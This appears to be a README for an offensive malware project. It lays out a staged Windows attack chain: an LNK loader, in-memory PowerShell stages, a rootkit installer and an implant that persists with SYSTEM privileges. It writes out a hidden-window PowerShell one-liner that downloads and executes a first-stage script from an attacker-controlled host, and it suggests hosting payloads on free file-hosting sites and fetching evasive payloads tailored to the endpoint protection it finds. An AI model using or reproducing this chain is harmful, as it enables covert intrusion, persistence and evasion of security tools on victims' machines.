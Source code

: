 Host this entire path in the attacker's repository. Or you can host them on a free file-hosting site like Heroku or Netlify or your own VPS. 

The LNK loader simply executes the first stage. 
`powershell.exe -WindowStyle Hidden -Command IEX(iwr -UseBasicParsing http://192.168.1.26/stage1.ps1)`

If you already have shell access, you can simply copy and paste the one-liner to start the chain.

# Attack chain

1. stage1.ps1 auto-enumerates privileges in memory as a benign sysadmin script, if administrative...
2. Downloads and parses stage2.ps1 in memory
3. Runs the rootkit installer and payload
4. Downloads and adds the registry configurations as a batch script and then deletes it
5. Executes the payload (if the target reboots, a copy of the implant restarts with SYSTEM privileges)

These chains can be extended by enumerating vendor solutions (by querying for endpoint protection agent instlalations) between them to download evasive payloads targeting specific solutions


# Compile the rootkit dropper

Rename the executable to stage3.exe (We don't host compiled malware on Github)

# Compile the implant

Rename the executable to stage4.exe
